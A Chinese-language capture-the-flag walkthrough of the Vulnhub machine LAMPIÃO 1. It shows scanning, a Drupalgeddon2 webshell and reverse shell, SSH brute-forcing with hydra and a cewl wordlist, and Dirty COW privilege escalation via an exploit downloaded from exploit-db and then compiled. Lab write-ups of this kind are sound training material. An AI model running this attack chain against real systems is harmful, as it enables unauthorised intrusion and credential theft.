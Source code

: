 ```yaml
---

title: Vulnhub	249 LAMPIÃO 1
date: 2018-07-28
---
```


考点：drupal,hydra,暴力破解,dirtyc0w

靶机链接：<https://www.vulnhub.com/entry/lampiao-1,249/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| LAMPIÃO    | 10.0.2.9  |

## 初步打点

### 端口扫描

```bash
$ sudo arp-scan  -l           
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.9        08:00:27:58:66:90       PCS Systemtechnik GmbH
$ export tip=10.0.2.9         
$ sudo nmap -v -A -p- $tip    
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Lampi\xC3\xA3o
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### WEB测试

看来要在80和1898端口突破

80扫一下就挂了

1898端口打开是个Web应用，页脚显示drupal

使用`whatweb`探测一下drupa版本

```bash
$ whatweb  http://10.0.2.9:1898
http://10.0.2.9:1898 [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.0.2.9], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.24], PasswordField[pass], Script[text/javascript], Title[Lampião], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24]

```

大概率是Drupal 7

### 漏洞发现

试试[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

运行报错
```ruby
<internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require': cannot load such file -- highline/import (LoadError)
```

google查询安装`highline`即可

```bash
$ sudo gem install highline
```

运行后显示`drupalgeddon2.rb` 已写入webshell

![1](https://www.vulnhub.cn/walkthrough/249/1.webp)



## 获得权限

### 靶机测试

#### 思路一 Drupalgeddon2

通过[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)获得的webshell执行`id`

![2](https://www.vulnhub.cn/walkthrough/249/2.webp)

下载php-reverse-shell.php 访问，获得反弹shell

![3](https://www.vulnhub.cn/walkthrough/249/3.webp)

#### 思路二 暴力破解

##### 用户名

查看两个内容页面，对应用户名是 `tiago`和`Eder`作为用户名字典

```bash
$ cat user
tiago
eder
```

##### 密码

使用cewl获取个字典文件作为密码字典

```bash
$ cewl -w 1.txt http://10.0.2.9:1898/
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)                
```

##### hydra

使用[hydra](https://www.iihack.com/pages/tools/hydra.html)爆破ssh
```bash
$ hydra -L user -P 1.txt 10.0.2.9 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1688 login tries (l:2/p:844), ~106 tries per task
[DATA] attacking ssh://10.0.2.9:22/
[22][ssh] host: 10.0.2.9   login: tiago   password: Virgulino
```

获得tiago的密码

![4](https://www.vulnhub.cn/walkthrough/249/4.webp)

ssh登陆成功

![5](https://www.vulnhub.cn/walkthrough/249/5.webp)

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍，打算使用脏牛提权，运行成功后管理员密码被修改为`dirtyCowFun`

```bash
$ wget https://www.exploit-db.com/download/40847 -O 40847.c
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.c -lutil
$ ./dcow
```

![6](https://www.vulnhub.cn/walkthrough/249/6.webp)
